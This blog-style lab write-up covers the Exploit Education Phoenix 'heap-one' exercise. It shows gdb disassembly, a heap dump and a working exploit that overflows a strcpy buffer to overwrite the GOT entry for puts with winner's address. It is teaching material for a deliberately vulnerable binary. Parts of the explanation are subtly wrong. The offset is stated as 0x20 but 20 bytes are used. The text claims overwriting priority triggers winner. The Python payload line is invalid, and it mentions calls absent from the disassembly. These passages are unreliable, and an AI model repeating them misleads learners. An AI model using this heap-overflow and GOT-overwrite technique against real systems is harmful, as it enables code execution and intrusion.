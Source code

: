 ```yaml
---
layout: post
title: Heap One Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
comments: true
description: A comprehensive writeup that helps to understand Heap One exercise heap buffer overflow vulnerability with learning resources.
---
```


If you haven't set up your lab yet, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)
9. [Format One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html)
10. [Format Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/07/exploit-education-format-two-exercise-writeup.html)
11. [Format Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/14/exploit-education-format-three-exercise-writeup.html)
12. [Format Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/21/exploit-education-format-four-exercise-writeup.html)
13. [Heap Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/28/exploit-education-format-heap-exercise-writeup.html)

### Quick Overview

Similar to Heap Zero, Heap One exercise motive is to smash the heap to modify other variables in the heap to a `hex value` and technically overwrite `struct` in the heap. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared struct variable in the heap region.

### Disassemble

Disassembling the code will get you overall idea behind the heap-one code, One can use `gdb ./heap-one` to start debugging it in runtime.

1. `gdb ./heap-one`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x080487d5 <+0>:     lea    ecx,[esp+0x4]
   0x080487d9 <+4>:     and    esp,0xfffffff0
   0x080487dc <+7>:     push   DWORD PTR [ecx-0x4]
   0x080487df <+10>:    push   ebp
   0x080487e0 <+11>:    mov    ebp,esp
   0x080487e2 <+13>:    push   ebx
   0x080487e3 <+14>:    push   ecx
   0x080487e4 <+15>:    sub    esp,0x10
   0x080487e7 <+18>:    mov    ebx,ecx
   0x080487e9 <+20>:    sub    esp,0xc
   0x080487ec <+23>:    push   0x8
   0x080487ee <+25>:    call   0x80490dc <malloc>
   0x080487f3 <+30>:    add    esp,0x10
   0x080487f6 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080487f9 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080487fc <+39>:    mov    DWORD PTR [eax],0x1
   0x08048802 <+45>:    sub    esp,0xc
   0x08048805 <+48>:    push   0x8
   0x08048807 <+50>:    call   0x80490dc <malloc>
   0x0804880c <+55>:    add    esp,0x10
   0x0804880f <+58>:    mov    edx,eax
   0x08048811 <+60>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048814 <+63>:    mov    DWORD PTR [eax+0x4],edx
   0x08048817 <+66>:    sub    esp,0xc
   0x0804881a <+69>:    push   0x8
   0x0804881c <+71>:    call   0x80490dc <malloc>
   0x08048821 <+76>:    add    esp,0x10
   0x08048824 <+79>:    mov    DWORD PTR [ebp-0x10],eax
   0x08048827 <+82>:    mov    eax,DWORD PTR [ebp-0x10]
   0x0804882a <+85>:    mov    DWORD PTR [eax],0x2
   0x08048830 <+91>:    sub    esp,0xc
   0x08048833 <+94>:    push   0x8
   0x08048835 <+96>:    call   0x80490dc <malloc>
   0x0804883a <+101>:   add    esp,0x10
   0x0804883d <+104>:   mov    edx,eax
   0x0804883f <+106>:   mov    eax,DWORD PTR [ebp-0x10]
   0x08048842 <+109>:   mov    DWORD PTR [eax+0x4],edx
   0x08048845 <+112>:   mov    eax,DWORD PTR [ebx+0x4]
   0x08048848 <+115>:   add    eax,0x4
   0x0804884b <+118>:   mov    edx,DWORD PTR [eax]
   0x0804884d <+120>:   mov    eax,DWORD PTR [ebp-0xc]
   0x08048850 <+123>:   mov    eax,DWORD PTR [eax+0x4]
   0x08048853 <+126>:   sub    esp,0x8
   0x08048856 <+129>:   push   edx
   0x08048857 <+130>:   push   eax
   0x08048858 <+131>:   call   0x8048560 <strcpy@plt>
   0x0804885d <+136>:   add    esp,0x10
   0x08048860 <+139>:   mov    eax,DWORD PTR [ebx+0x4]
   0x08048863 <+142>:   add    eax,0x8
   0x08048866 <+145>:   mov    edx,DWORD PTR [eax]
   0x08048868 <+147>:   mov    eax,DWORD PTR [ebp-0x10]
   0x0804886b <+150>:   mov    eax,DWORD PTR [eax+0x4]
   0x0804886e <+153>:   sub    esp,0x8
   0x08048871 <+156>:   push   edx
   0x08048872 <+157>:   push   eax
   0x08048873 <+158>:   call   0x8048560 <strcpy@plt>
   0x08048878 <+163>:   add    esp,0x10
   0x0804887b <+166>:   sub    esp,0xc
   0x0804887e <+169>:   push   0x804ab70
   0x08048883 <+174>:   call   0x80485b0 <puts@plt>
   0x08048888 <+179>:   add    esp,0x10
   0x0804888b <+182>:   mov    eax,0x0
   0x08048890 <+187>:   lea    esp,[ebp-0x8]
   0x08048893 <+190>:   pop    ecx
   0x08048894 <+191>:   pop    ebx
   0x08048895 <+192>:   pop    ebp
   0x08048896 <+193>:   lea    esp,[ecx-0x4]
   0x08048899 <+196>:   ret
```

If you carefully check the source, you might miss `winner` in the above disassembled code. You can go ahead and type `disassemble winner` in the gdb prompt,

```assembly
   0x0804889a <+0>:     push   ebp
   0x0804889b <+1>:     mov    ebp,esp
   0x0804889d <+3>:     sub    esp,0x8
   0x080488a0 <+6>:     sub    esp,0xc
   0x080488a3 <+9>:     push   0x0
   0x080488a5 <+11>:    call   0x8048610 <time@plt>
   0x080488aa <+16>:    add    esp,0x10
   0x080488ad <+19>:    sub    esp,0x8
   0x080488b0 <+22>:    push   eax
   0x080488b1 <+23>:    push   0x804ab8c
   0x080488b6 <+28>:    call   0x8048580 <printf@plt>
   0x080488bb <+33>:    add    esp,0x10
   0x080488be <+36>:    nop
   0x080488bf <+37>:    leave
   0x080488c0 <+38>:    ret
```

Before taking a look at the code, if you disassembled the heap-one using gdb to view the assembly instruction, you may notice the puts, fflush, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

- Greet with `Welcome to phoenix/heap-one, brought to you by https://exploit.education` message via Puts (aka printf) method
- In the main() function, the program declares two pointers to struct heapStructure called i1 and i2.
- The program allocates memory for i1 using malloc() and sets its priority field to 1.
- The program allocates memory for i1's name field using malloc() and reserves 8 bytes of memory for it.
- The program allocates memory for i2 using malloc() and sets its priority field to 2.
- The program allocates memory for i2's name field using malloc() and reserves 8 bytes of memory for it.
- The program uses strcpy() to copy the first command-line argument passed to it by the user into the name field of i1.
- The program uses strcpy() to copy the second command-line argument passed to it by the user into the name field of i2.
- The program prints out a message saying "and that's a wrap folks!" and then exits.

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite function pointer with your own function pointer and therefore redirecting the program flow to achieve code execution within the binary/program. In ideal exploit world, you may overwrite the function pointer and redirect to `system` function call to achieve remote code execution and [this](https://securitylab.github.com/research/now-you-c-me-part-two/) blog post good example of reflecting this goal. In this exercise, you might want to overwrite the struct `i2` with `i1` and finally overwrite the `Global offset table`.

### Memory Allocation

As you see that the `heapStructure` struct is dynamically allocated, they are allocated seperately by `malloc` different from stack frame. You can see that `i1.name` (8 bytes) gets written at `0xf7e69008` and `priority` integer variable (4 bytes). The `i2.name` (8 bytes) gets written at `0xf7e69028` and `priority` integer variable (4 bytes). You can verify this by using `vmmap` command in gdb.

However, you might want to overwrite the `i2` heap with `i1.name`. To find the offset you can simply use `p i1.name - p i2.priority` in gdb. The offset is `0x20` bytes. So, you can overwrite the `i2` heap with `i1.name` by using `r $(python -c "print('A'*20)")` in gdb. You can verify this by using `vmmap` command in gdb. Now that you have overwritten the `i2` heap with `i1.name`, you can overwrite the `i2.priority` with `1` to get the `winner` function called.
** note that the memory address of `i2.name` is `0xf7e69038` which is located within the struct**. You could potentially overwrite this memory address with actual `winner` function address and `strcpy` will take care of the rest.

```assembly
(gdb) x/12xw 0xf7e69008 # i1
0xf7e69008:     0x00000001      0xf7e69018      0x00000000      0x00000011
0xf7e69018:     0x41414141      0x41414141      0x41414141      0x41414141
0xf7e69028:     0x41414141      0x41414141      0x00000000      0x00000011
(gdb) x/12xw 0xf7e69028 #i2
0xf7e69028:     0x41414141      0x41414141      0x00000000      0x00000011
0xf7e69038:     0x00000000      0x00000000      0x00000000      0x000fffc1
0xf7e69048:     0x00000000      0x00000000      0x00000000      0x00000000
```

To get the winner memory address, you can use gdb to disassemble the `winner` function and note down the starting address of the function. You can use `disassemble winner` command in gdb to disassemble the `winner` function. The starting address of the `winner` function is `0x0804889a`. The address `0x0804889a` can be represented in little endian format as `\9a\x88\x04\x08`. So, the final payload would be `20 bytes of A + 4 bytes GOT table puts address` and the second argument `4 bytes winner address` . The `puts` aka `printf` address can be found by using `objdump -R heap-one | grep puts` command which is `0804c140`

You can use python to generate the payload as follows,

```python
print('A'*20 + '\x40\xc1\x04\x08') + print ('\x9a\x88\x04\x08')
```

### Exploit

So, the final exploit would be as follows,

```assembly
user@phoenix-amd64:/opt/phoenix/i486$ 
/opt/phoenix/i486/heap-one $(python -c "print 'A'*20 + '\x40\xc1\x04\x08'") $(python -c "print '\x9a\x88\x04\x08'")
Congratulations, you've completed this level @ 1683325305 seconds past the Epoch
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may eventually 
perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/elementary-sherlock.jpg)

### Source and Reference:

1. Heap One Exercise: [Exploit Education](https://exploit.education/phoenix/heap-one/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.